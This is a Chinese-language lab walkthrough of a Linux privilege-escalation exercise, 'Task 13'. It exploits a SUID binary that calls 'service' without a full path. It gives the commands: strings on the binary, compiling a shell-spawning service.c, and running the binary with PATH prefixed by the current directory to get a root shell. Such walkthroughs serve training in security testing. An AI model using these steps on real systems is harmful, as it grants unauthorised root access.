 # 任务 13: SUID / SGID 可执行文件-环境变量

由于/usr/local/bin/suid-env 可执行文件继承了用户的 PATH 环境变量，并试图在不指定绝对路径的情况下执行程序，因此可以利用该文件。

首先，执行该文件，注意它似乎试图启动 apache2 服务器:

```
/usr/local/bin/suid-env
```

在文件上运行字符串以查找可打印的字符串:

```
strings /usr/local/bin/suid-env
```

其中一行(“service apache2 start”)表示正在调用服务可执行文件来启动 web 服务器，但是没有使用可执行文件的完整路径(/usr/sbin/service)。

将位于/home/user/tools/suid/service . c 的代码编译成一个名为 service 的可执行文件。这段代码只是生成了一个 Bash shell:

```
gcc -o service /home/user/tools/suid/service.c
```

将当前目录(或新服务可执行文件所在的位置)添加到 PATH 变量前面，并运行 suid-env 可执行文件以获得根 shell:

```
PATH=.:$PATH /usr/local/bin/suid-env
```

![](img/b9e50af45278eee965eac578d34bdc81.png)![](img/846d2322f7ed829039956743cfdf2120.png)
